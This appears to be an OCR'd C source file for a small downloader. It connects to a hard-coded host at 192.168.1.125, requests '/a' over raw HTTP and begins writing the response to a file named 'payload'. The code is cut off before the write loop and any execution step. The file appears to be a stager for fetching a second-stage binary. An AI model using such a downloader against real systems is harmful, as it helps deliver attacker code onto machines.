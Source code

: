 ```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <sys/stat.h>
#include <sys/types.h>

#define BUFFER_SIZE 4096

int main(void) {
    const char *host = "192.168.1.125";
    const char *path = "/a";
    const char *output_file = "payload";
    const int port = 80;

    struct sockaddr_in server_address;
    int sockfd, filefd;
    char request[256];
    char buffer[BUFFER_SIZE];
    ssize_t bytes_read;
    int start_writing = 0;  // Flag to start writing to file

    // Create socket
    sockfd = socket(AF_INET, SOCK_STREAM, 0);
    if (sockfd < 0) {
        fprintf(stderr, "Error creating socket\n");
        return 1;
    }

    // Set server address
    memset(&server_address, 0, sizeof(server_address));
    server_address.sin_family = AF_INET;
    server_address.sin_port = htons(port);
    if (inet_pton(AF_INET, host, &(server_address.sin_addr)) <= 0) {
        fprintf(stderr, "Invalid address or address not supported\n");
        close(sockfd);
        return 1;
    }

    // Connect to server
    if (connect(sockfd, (struct sockaddr *)&server_address, sizeof(server_address)) < 0) {
        fprintf(stderr, "Error connecting to server\n");
        close(sockfd);
        return 1;
    }

    // Send HTTP GET request
    snprintf(request, sizeof(request), "GET %s HTTP/1.1\r\nHost: %s\r\n\r\n", path, host);
    if (write(sockfd, request, strlen(request)) < 0) {
        fprintf(stderr, "Error sending request\n");
        close(sockfd);
        return 1;
    }

    // Open output file
    filefd = open(output_file, O_WRONLY | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
    if (filefd < 0) {
        fprintf(stderr, "Error opening file for writing\n");
        close(sockfd);
```